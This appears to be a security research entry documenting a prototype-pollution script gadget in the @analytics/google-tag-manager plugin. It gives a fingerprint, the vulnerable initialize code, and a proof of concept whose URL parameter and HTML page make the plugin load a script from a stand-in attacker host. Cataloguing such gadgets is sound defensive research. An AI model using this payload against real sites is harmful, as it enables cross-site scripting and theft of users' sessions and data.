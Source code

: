 ## Google Tag Manager plugin for analytics

### URL

https://www.npmjs.com/package/@analytics/google-tag-manager <br />
https://github.com/DavidWells/analytics/tree/87394ecd762454a54b515d243b07d9984de81059/packages/analytics-plugin-google-tag-manager

### JS Fingerprint

```js
return (typeof _analytics !== 'undefined' && typeof analyticsGtagManager !== 'undefined')
```

### Vulnerable code fragment

https://unpkg.com/@analytics/google-tag-manager@0.5.0/dist/@analytics/google-tag-manager.min.js <br />
https://github.com/DavidWells/analytics/blob/87394ecd762454a54b515d243b07d9984de81059/packages/analytics-plugin-google-tag-manager/src/browser.js

```js
initialize: function(e) {
    var t = e.config,
        a = t.containerId,
        n = t.dataLayerName,
        i = t.customScriptSrc,
        c = t.preview,
        u = t.auth;
    if (!a) throw new Error("No google tag manager containerId defined");
    if (c && !u) throw new Error("When enabling preview mode, both preview and auth parameters must be defined");
    var g = i || "https://www.googletagmanager.com/gtm.js";
    o(a) || (function(e, t, r, a, n) {
        e[a] = e[a] || [], e[a].push({
            "gtm.start": (new Date).getTime(),
            event: "gtm.js"
        });
        var o = t.getElementsByTagName(r)[0],
            i = t.createElement(r),
            d = "dataLayer" != a ? "&l=" + a : "",
            s = c ? "&gtm_preview=" + c + "&gtm_auth=" + u + "&gtm_cookies_win=x" : "";
        i.async = !0, i.src = "".concat(g, "?id=") + n + d + s, o.parentNode.insertBefore(i, o)
    }(window, document, "script", n, a), r = n, t.dataLayer = window[n])
}
```

### PoC

```
?__proto__[customScriptSrc]=//attacker.tld/xss.js
```

```html
<script src="https://unpkg.com/analytics/dist/analytics.min.js"></script>
<script src="https://unpkg.com/@analytics/google-tag-manager/dist/@analytics/google-tag-manager.min.js"></script>
<script>
    Object.prototype.customScriptSrc = '//attacker.tld/xss.js'
</script>
<script>
    var Analytics = _analytics.init({
        app: 'my-app-name',
        plugins: [
          analyticsGtagManager({
            containerId: 'GTM-123xyz'
          })
        ]
    })
</script>
```
